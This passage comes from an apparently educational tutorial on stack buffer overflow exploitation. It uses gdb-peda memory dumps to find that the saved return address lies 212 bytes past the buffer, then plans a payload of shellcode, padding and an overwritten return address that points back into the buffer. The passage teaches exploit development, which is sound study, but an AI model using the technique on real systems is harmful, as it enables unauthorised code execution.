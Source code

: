 
    * Why did we make note of the StackAddress where Return Address is stored and Address of buffer? We made note of it because we need to craft the exploit payload according to it. 

    * Let us use the **x/** command and get a very clear picture of the stack. 

            gdb-peda$ x/60xw 0xffffcb98
            0xffffcb98:	0xffffcc58	0xf7e623e4	0xf7facd60	0x0804b008
            0xffffcba8:	0x00000014	0xf7e643ac	0x0804859a	0xf7facd60
            0xffffcbb8:	0x00000001	0xf7e652d4	0x00000014	0x0000000a
            0xffffcbc8:	0xf7fad870	0xf7e6412d	0xf7facd60	0x0804b008
            0xffffcbd8:	0xf7facd60	0xf7e6447b	0xf7facd60	0x0804b008
            0xffffcbe8:	0x00000014	0xf7e643ac	0xf7fac000	0xf7facd60
            0xffffcbf8:	0xf7fad870	0xf7e64e12	0xf7facd60	0x0000000a
            0xffffcc08:	0x000000e0	0xf7fac000	0xf7e64dd7	0xf7fac000
            0xffffcc18:	0x00000013	0xf7e59dfb	0xf7facd60	0x0000000a
            0xffffcc28:	0x00000013	0x00000f17	0xf7fe77eb	0xf7df9700
            0xffffcc38:	0x00000000	0xf7facd60	0xffffcc78	0xf7fee010
            0xffffcc48:	0xf7e59cab	0x00000000	0xf7fac000	0xf7fac000
            0xffffcc58:	0xffffcc78	0x080484be	0x08048588	0xffffcd24
            0xffffcc68:	0xffffcc78	0x080484c6	0xf7fac3dc	0xffffcc90
            0xffffcc78:	0x00000000	0xf7e12637	0xf7fac000	0xf7fac000
            gdb-peda$
    
    * Let us calculate the gap between the starting address of buffer and StackAddress where Return Address is stored. 

            StackAddress - bufferAddress = 0xffffcc6c - 0xffffcb98 = 212 bytes
    
    * So, the gap is **212** bytes. The stack looks like this: 



            <buffer - 200 bytes><some gap - 8 bytes><Old ebp - 4 bytes><Return Address - 4 bytes>

            |----------------------------------------------------------|-------------------------|
                                    212 bytes                                      4 bytes


    * Now that we have a clear picture of the stack, let us plan the exploit. 


3. Planning the exploit!


    * Again, the stack looks like this: 

            <buffer - 200 bytes><some gap - 8 bytes><Old ebp - 4 bytes><Return Address - 4 bytes>

            |----------------------------------------------------------|-------------------------|
                                    212 bytes                                      4 bytes

    
    * We can store the shellcode right at the beginning of the buffer. That occupies 25 bytes. So, the amount of space left is: 

            212 - 25 = 187 bytes. 

    * We can fill 183 bytes with say 'a's, the old ebp space with 'b'. 

    * What will the Return Address be overwritten with? We will overwrite it with the **buffer** Address. So, instead of returning back to main function, it starts executing something present at the beginning of the buffer. What is present at the beginning of the buffer? Our evil shellcode :P
